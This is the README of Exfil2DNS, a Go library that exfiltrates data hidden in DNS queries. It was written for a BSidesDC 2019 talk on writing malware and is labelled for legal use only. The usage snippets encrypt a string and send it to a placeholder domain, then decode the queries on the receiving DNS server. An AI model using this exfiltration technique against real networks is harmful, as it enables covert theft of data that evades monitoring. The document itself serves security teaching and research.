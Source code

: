 # Exfil2DNS

Simple library to exfiltrate data using DNS queries.

Written for the _Hands-on Writing Malware in Go_ talk at BSidesDC 2019.

For legal use only.

## TODO

- [ ] Buffer encrypted bytes
- [ ] Finish documentation (and make more consistent)
- [ ] Make code more concise (where possible)
- [ ] Make a seperate chunking function (?)
- [ ] Make Client and Decryptor threadsafe?
- [ ] More testing

## Usage [Go Playground](https://play.golang.org/p/tQlngGpCKn2)

Encrypt and send data:

```go
import (
	"log"
	"github.com/CS-5/exfil2dns"
)
func main() {
	client, err := exfil2dns.NewClient(
		"cube", 
		"example.domain", 
		"ThisIsAKey1234", 23
	)
	
	if err != nil {
		log.Fatal("Error creating client: " + err.Error())
	}
	/* Exfil "Here's a sneaky string" */
	err = client.Exfil([]byte("Here's a sneaky string"))
	if err != nil {
		log.Fatal("Error exfiling data: " + err.Error())
	}
}
```

Decrypt data:

```go
import (
    "log"
    "github.com/CS-5/exfil2dns"
)

func main() {
    decryptor := exfil2dns.NewDecryptor("ThisIsAKey1234")

    /* DNS Server */
    queryString := someDNS.server()

	target, payload, err := decryptor.Decrypt(queryString)
	if err != nil {
		log.Fatal(err)
	}

    fmt.Printf("Target: %v, Payload: %v", target, payload)
}
```
